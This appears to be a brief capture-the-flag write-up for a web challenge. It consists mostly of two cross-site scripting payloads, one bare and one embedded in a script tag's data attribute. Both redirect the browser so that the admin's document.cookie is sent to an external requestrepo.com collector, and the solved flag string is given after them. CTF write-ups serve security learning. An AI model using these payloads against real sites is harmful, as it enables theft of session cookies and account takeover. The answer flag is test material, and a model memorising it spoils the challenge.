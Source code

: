 ## XXS steal admin cookie

### payload
```javascript
a');document.location="http://f5kkqikm.requestrepo.com?c="+document.cookie;//
```

```javascript
<script id='debug' src='/static/js/thing.js' data-ilovemass="a');document.location='http://f5kkqikm.requestrepo.com?c='+document.cookie;//"></script>
```

### flag
UMASS{NUMB3R_0N3_1N_$TUD3NT_D1N1NG_XD86543267!}